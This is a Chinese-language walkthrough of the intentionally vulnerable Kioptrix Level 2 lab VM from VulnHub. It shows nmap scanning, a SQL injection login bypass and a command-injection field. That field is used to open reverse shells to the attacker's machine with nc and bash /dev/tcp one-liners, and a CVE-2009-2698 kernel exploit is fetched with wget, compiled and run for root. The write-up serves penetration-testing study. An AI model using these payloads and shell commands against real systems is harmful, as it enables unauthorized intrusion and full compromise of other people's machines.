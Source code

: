 # Kioptrix2-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/kioptrix-level-11-2,23/

**Description**

This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.

Source: http://www.kioptrix.com/blog/?page_id=135

Source: http://www.kioptrix.com/blog/?p=49

This is the second release of #2. First release had a bug in it with the web application

2012/Feb/09: Re-releases

2011/Feb/11: Original Release

**知识点**
- SQL 注入
- 命令执行
- CVE-2009-2698

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix2/1.png)

排除法,去掉自己、宿主机、网关, `192.168.141.145` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.145
```

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix2/2.png)

开放端口数蛮多的,SSH、http、https、Mysql,还有一个较为少见的 631，运行的 CUPS 服务，CUPS 也有许多漏洞

这里 nmap 扫描 mysql 提示未授权,不过我测试并不能连接,从 web 先入手

---

# 中期-漏洞利用

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix2/3.png)

看着就像有 SQL 注入的样子,随便试了下注入就进去了
```
账号 随便
密码 1' or '1'='1
```

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix2/4.png)

看起来有个命令注入,简单尝试发现没有过滤
```
;ip a
```

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix2/5.png)

下面直接回弹 shell，kali 监听
```
nc -lvp 4444
```

执行命令
```
;nc -nv 192.168.141.134 4444 -e /bin/bash
```
没成功,估计没有 nc,试试直接 bash 回弹
```
;bash -i >& /dev/tcp/192.168.141.134/4444 0>&1
```

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix2/6.png)

回弹成功,果然没有 nc 程序,下面测试提权

---

# 后期-提权

简单收集下信息
```
cat /etc/*-release
uname -a
```

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix2/7.png)

centos 4.5,可以试试 CVE-2009-2698，https://www.exploit-db.com/exploits/9542

这里直接靶机下载或kali下载再传上去都行,自选

kali 下载完启 HTTP
```bash
wget https://www.exploit-db.com/download/9542
mv 9542 9542.c
python -m SimpleHTTPServer 8080
```

靶机下载 kali 上的 poc
```bash
cd /tmp
wget 192.168.141.134:8080/9542.c
gcc 9542.c
ls
./a.out
```

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix2/8.png)

提权成功,感谢 Kioptrix Team 制作靶机
